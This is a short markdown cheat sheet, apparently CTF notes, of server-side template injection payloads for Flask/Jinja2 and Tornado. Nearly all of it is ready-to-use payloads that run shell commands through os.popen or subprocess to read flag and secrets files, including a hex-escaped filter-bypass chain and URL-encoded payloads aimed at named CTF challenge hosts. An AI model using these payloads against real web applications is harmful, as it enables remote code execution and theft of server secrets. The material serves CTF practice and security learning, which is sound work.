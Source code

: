### Server Side Template Injection

---

Server side template injection is possible when an attacker injects template directive as user input that can execute arbitrary code on the server.
Example of a vulnerability : 

```py
{{5*5}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

---

#### Flask payload for Jinja2 : 
#### Config objects

The current configuration object : flask.config

Start with payload : `{{config.items()}}`
Then inject the second payload : `{{config.from_object('os')}}


```py
{{config.__class__.__init__.__globals__['os'].popen('cat flaskr/protected/burdellsecrets.txt').read()}}
{{config.__class__.__init__.__globals__['os'].popen('cat /home/ctf/flag.txt').read()}}
{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}
{{config}}
{%with a="Hello World"%}
{%print(a)%}
{%endwith}
{%with a=request|attr("application")|attr("__globals__")|attr(__getitem__)(__builtins__)|attr__getitem__)(__import__)("os")|attr("popen")("cat${IFS}flag.txt")|attr("read")()%}
```

---

#### Tornado payload

```py
{%import%20os%}{{os.popen("ls").read() }}
{% import os %}{{ os.popen("ls").read() }}
{{globals()}}
{% import os %}{{os.getcwd()}}
{% import os %}{{os.listdir(/home/tornado)}}
{% import os %}{{os.system(r"lookatme.txt")}}
{{help(object name)}}

```

```py
ctf payloads

http://chall.battlectf.online:8085/?capital={{%20().__class__.__base__.__subclasses__()[354](%22cat%20flag.txt%22,%20shell=True,%20stdout=-1).communicate()[0].strip()}}

SSTI with bypass
http://chall.battlectf.online:8086/?capital={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f%27)(%27os%27)|attr(%27\x70\x6f\x70\x65\x6e%27)(%27cat%20flag\x2etxt%27)|attr(%27read%27)()}}
```

